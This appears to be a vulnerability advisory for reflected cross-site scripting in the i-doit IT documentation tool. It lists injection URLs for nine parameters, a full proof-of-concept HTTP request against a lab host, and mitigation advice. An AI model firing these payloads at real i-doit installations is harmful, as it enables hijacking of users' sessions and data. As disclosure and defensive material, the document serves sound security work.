 # CVE-2024-?

## Vulnerability Details:

- **CVSS Score:** 6.8 HIGHMEDIUM (CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:U/C:H/I:L/A:L)

- **Affected Component:** [I-DOIT](https://www.i-doit.com) parameters:

    | Parameter                    | Description                                       | URL (PoC)        |
    |------------------------------|---------------------------------------------------|------------|
    | id                           | Identifier parameter                              | /?moduleID=7&id=s3j5b%22onmouseover%3d%22alert(1)%22style%3d%22position%3aabsolute%3bwidth%3a100%25%3bheight%3a100%25%3btop%3a0%3bleft%3a0%3b%22kmc6x&mNavID=2&lang=de |
    | lang                         | Language parameter                                | /?mNavID=2&lang=gui4c%22onmouseover%3d%22alert(1)%22style%3d%22position%3aabsolute%3bwidth%3a100%25%3bheight%3a100%25%3btop%3a0%3bleft%3a0%3b%22ku6le&tenant_id=1  | 
    | mNavID                       | Navigation identifier parameter                   | /?mNavID=aqaal%22onmouseover%3d%22alert(1)%22style%3d%22position%3aabsolute%3bwidth%3a100%25%3bheight%3a100%25%3btop%3a0%3bleft%3a0%3b%22el125&lang=de&tenant_id=1 |
    | name (arbitrarily supplied) | Name of an arbitrarily supplied URL parameter     | /?navMode=&sort=&dir=&id=&navPageStart=&navTemplateDetailView=&template=&useTemplate=&popupReceiver=&_csrf_token=1698.wxfibOhTA0_Y5hIPtKFSbmcrrEAO7zOoiGTUmvtApXU.omW1PKBrZCG0k1RV8uJqNy5Gny1qvwv7-gmV45d30RqbWowurgFJHomqIg&HTTP_GOTO=&login_username=admin&login_password=admin&login_submit=&uo703%22onmouseover%3d%22alert(1)%22style%3d%22position%3aabsolute%3bwidth%3a100%25%3bheight%3a100%25%3btop%3a0%3bleft%3a0%3b%22vnuwwxvu6hf=1 |
    | pID                          | ID parameter                                      | /?moduleID=7&pID=bzon8%22onmouseover%3d%22alert(1)%22style%3d%22position%3aabsolute%3bwidth%3a100%25%3bheight%3a100%25%3btop%3a0%3bleft%3a0%3b%22bsv0h |
    | treeNode                     | Tree node parameter                               | /?moduleID=1021&treeNode=1021360494'%3balert(1)%2f%2f883&pID=type-config |
    | type                         | Type parameter                                    | /?viewMode=1101&type=cehtj%22onmouseover%3d%22alert(1)%22style%3d%22position%3aabsolute%3bwidth%3a100%25%3bheight%3a100%25%3btop%3a0%3bleft%3a0%3b%22g3asdsxian9&view=object&mNavID=2&lang=de&navMode=&sort=&dir=&id=&navPageStart=&navTemplateDetailView=&template=&useTemplate=&popupReceiver=&_csrf_token=&q=dDLqSW&submit_isys_form=&C_VISUALIZATION_OBJ_SELECTION=dDLqSW&C_VISUALIZATION_OBJ_SELECTION__HIDDEN=&C_VISUALIZATION_OBJ_SELECTION__CONFIG=%7B%22type%22%3A%22f_popup%22%2C%22p_strPopupType%22%3A%22browser_object_ng%22%2C%22name%22%3A%22C_VISUALIZATION_OBJ_SELECTION%22%2C%22disableInputGroup%22%3Atrue%2C%22p_bDisableDetach%22%3Atrue%2C%22p_bInfoIconSpacer%22%3A0%2C%22p_strValue%22%3A%22%22%2C%22p_strPlaceholder%22%3A%22Bitte+Objekt+ausw%5Cu00e4hlen%22%2C%22callback_accept%22%3A%22idoit.callbackManager.triggerCallback%28%27visualization-init-explorer%27%29%3B%22%2C%22nowiki%22%3A1%2C%22disablePrimaryConditions%22%3Afalse%2C%22disableSecondaryConditions%22%3Afalse%2C%22disableCustomConditions%22%3Afalse%2C%22use_auth%22%3Afalse%2C%22p_onClick%22%3A%22if+%28%21this.getValue%28%29.blank%28%29%29+%7Bthis.writeAttribute%28%27placeholder%27%2Cthis.readAttribute%28%27data-last-value%27%29%29.setValue%28%27%27%29%3B%7D%22%2C%22p_onBlur%22%3A%22if+%28this.getValue%28%29.blank%28%29%29+%7Bthis.setValue%28this.readAttribute%28%27data-last-value%27%29%29%3B%7D%22%2C%22p_strSuggest%22%3A%22object-browser%22%2C%22p_strSuggestView%22%3A%22C_VISUALIZATION_OBJ_SELECTION__VIEW%22%2C%22p_strSuggestHidden%22%3A%22C_VISUALIZATION_OBJ_SELECTION__HIDDEN%22%2C%22p_strSuggestParameters%22%3A%22parameters%3A+%7B%5C%22typeFilter%5C%22%3Anull%2C%5C%22catFilter%5C%22%3Anull%2C%5C%22typeBlacklist%5C%22%3Anull%2C%5C%22cmdb_filter%5C%22%3Anull%2C%5C%22customFilters%5C%22%3Anull%7D%2CselectCallback%3A+function%28view%2C+li%29+%7Bview.writeAttribute%28%27data-last-value%27%2C+li.readAttribute%28%27title%27%29%29%3Bidoit.callbackManager.triggerCallback%28%27visualization-init-explorer%27%29%3B%7D%22%2C%22checkRight%22%3A%22isys_auth%3A%3AEDIT%22%2C%22p_additional%22%3A%22+data-hidden-field%3D%5C%22C_VISUALIZATION_OBJ_SELECTION__HIDDEN%5C%22+data-last-value%3D%5C%22%5C%22%22%2C%22id%22%3A%22C_VISUALIZATION_OBJ_SELECTION__VIEW%22%7D&SM2__C_VISUALIZATION_OBJ_SELECTION%5Bp_strPopupType%5D=browser_object_ng&SM2__C_VISUALIZATION_OBJ_SELECTION%5Bp_strSelectedID%5D=&SM2__C_VISUALIZATION_OBJ_SELECTION%5Bp_arData%5D=&SM2__C_VISUALIZATION_OBJ_SELECTION%5Bp_strTable%5D=&SM2__C_VISUALIZATION_OBJ_SELECTION%5Bp_strValue%5D=&SM2__C_VISUALIZATION_OBJ_SELECTION%5Bmultiselect%5D=&SM2__C_VISUALIZATION_OBJ_SELECTION%5Btype%5D=f_popup&SM2__C_VISUALIZATION_IT_SERVICE_SELECTION%5Bp_strPopupType%5D=visualization_itservice_selection&SM2__C_VISUALIZATION_IT_SERVICE_SELECTION%5Bp_strSelectedID%5D=&SM2__C_VISUALIZATION_IT_SERVICE_SELECTION%5Bp_arData%5D=&SM2__C_VISUALIZATION_IT_SERVICE_SELECTION%5Bp_strTable%5D=&SM2__C_VISUALIZATION_IT_SERVICE_SELECTION%5Bp_strValue%5D=&SM2__C_VISUALIZATION_IT_SERVICE_SELECTION%5Bmultiselect%5D=&SM2__C_VISUALIZATION_IT_SERVICE_SELECTION%5Btype%5D=f_popup&C_VISUALIZATION_PROFILE=1&SM2__C_VISUALIZATION_PROFILE%5Bp_strPopupType%5D=visualization_profile&SM2__C_VISUALIZATION_PROFILE%5Bp_strSelectedID%5D=&SM2__C_VISUALIZATION_PROFILE%5Bp_arData%5D=&SM2__C_VISUALIZATION_PROFILE%5Bp_strTable%5D=&SM2__C_VISUALIZATION_PROFILE%5Bp_strValue%5D=&SM2__C_VISUALIZATION_PROFILE%5Bmultiselect%5D=&SM2__C_VISUALIZATION_PROFILE%5Btype%5D=tree&SM2__C_VISUALIZATION_EXPORT_BUTTON%5Bp_strPopupType%5D=visualization_export&SM2__C_VISUALIZATION_EXPORT_BUTTON%5Bp_strSelectedID%5D=&SM2__C_VISUALIZATION_EXPORT_BUTTON%5Bp_arData%5D=&SM2__C_VISUALIZATION_EXPORT_BUTTON%5Bp_strTable%5D=&SM2__C_VISUALIZATION_EXPORT_BUTTON%5Bp_strValue%5D=&SM2__C_VISUALIZATION_EXPORT_BUTTON%5Bmultiselect%5D=&SM2__C_VISUALIZATION_EXPORT_BUTTON%5Btype%5D=f_popup&C_VISUALIZATION_SERVICE_FILTER=-1&SM2__C_VISUALIZATION_SERVICE_FILTER%5Bp_strSelectedID%5D=&SM2__C_VISUALIZATION_SERVICE_FILTER%5Bp_strTable%5D=&SM2__C_VISUALIZATION_SERVICE_FILTER%5Bp_arData%5D=a%3A6%3A%7Bi%3A-1%3Bs%3A1%3A%22-%22%3Bi%3A1%3Bs%3A7%3A%22Level+1%22%3Bi%3A2%3Bs%3A7%3A%22Level+2%22%3Bi%3A3%3Bs%3A7%3A%22Level+3%22%3Bi%3A4%3Bs%3A7%3A%22Level+4%22%3Bi%3A5%3Bs%3A7%3A%22Level+5%22%3B%7D&SM2__C_VISUALIZATION_SERVICE_FILTER%5Btype%5D=f_dialog&LogbookCommentary= |
    | view                         | View parameter                                    | /?viewMode=1101&type=tree&view=object38032'%3balert(1)%2f%2f845&mNavID=2&lang=en |

- **Vulnerability Type:** Cross-site scripting Reflected (XSS)

- **Impact:** If an attacker can control a script that is executed in the victim's browser, then they can typically fully compromise that user. Amongst other things, the attacker can:
  - Perform any action within the application that the user can perform.
  - View any information that the user is able to view.
  - Modify any information that the user is able to modify.
  - Initiate interactions with other application users, including malicious attacks, that will appear to originate from the initial victim user.

- **Exploitability:** The vulnerability can be exploited by crafting specifically malicious queries and submitting them through the vulnerable parameters.

- **Affected Versions:** Tested only in [I-DOIT](https://www.i-doit.com) 28 PRO

- **Details:** A Reflected Cross-Site Scripting (XSS) vulnerability occurs when user input is not properly sanitized by a web application and is then echoed back to the user's browser without adequate encoding. This allows an attacker to inject and execute malicious scripts within the context of the victim's session.

- **Mitigation:** Preventing cross-site scripting isn't a simple fix that you can turn on or off. Depending on the web application, protection strategies will differ. That said, it's important to consider the following strategies for how to mitigate cross-site scripting.

  - **Whenever possible, prohibit HTML code in inputs.** Preventing users from posting HTML code into form inputs is a straightforward and effective measure.
  - **Validate inputs.** If you're going to accept form inputs, validating the data to ensure it meets specific criteria will be helpful
  - **Secure your cookies.** Setting rules for your web applications defining how cookies are handled can prevent XSS and even block JavaScript from accessing cookies.
  - **Sanitize data.** Similar to validation, sanitizing occurs after data has been posted but before it is executed. Look for online tools like HTMLSanitizer to sanitize HTML code online for XSS vulnerabilities.
  - **Use a web application firewall (WAF).** Rules can be created on a WAF to specifically address XSS by blocking abnormal server requests. A robust WAF should be a key component of your organization's security strategy, as it can also prevent SQL injection attacks, distributed denial-of-service attacks and other common threats.

## Proof of Concept (PoC):

An attacker could craft a malicious request to exploit the vulnerability:

```HTTP Request
GET /?moduleID=7&id=s3j5b%22onmouseover%3d%22alert(1)%22style%3d%22position%3aabsolute%3bwidth%3a100%25%3bheight%3a100%25%3btop%3a0%3bleft%3a0%3b%22kmc6x&mNavID=2&lang=de HTTP/1.1
Host: 192.168.1.46
Accept-Encoding: gzip, deflate, br
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Connection: close
Cache-Control: max-age=0
Cookie: PHPSESSID=3e9a5hs6b6rbcmv77aipbkhddu
Upgrade-Insecure-Requests: 1
Referer: http://192.168.1.46/?moduleID=7&id=5047
Sec-CH-UA: ".Not/A)Brand";v="99", "Google Chrome";v="121", "Chromium";v="121"
Sec-CH-UA-Platform: Windows
Sec-CH-UA-Mobile: ?0
Content-Length: 0
```

![image](https://github.com/offensive-security-pwncat/CVE/blob/main/XSS/img/022024.jpeg?raw=true)

## Recommendations:

- **Patch:** Develop and deploy a patch or update that addresses the XSS Reflected vulnerabilities in the affected parameters.

- **Education:** Provide training and resources to developers on secure coding practices, emphasizing the importance of input validation and preventing XSS Refelcted vulnerabilities.

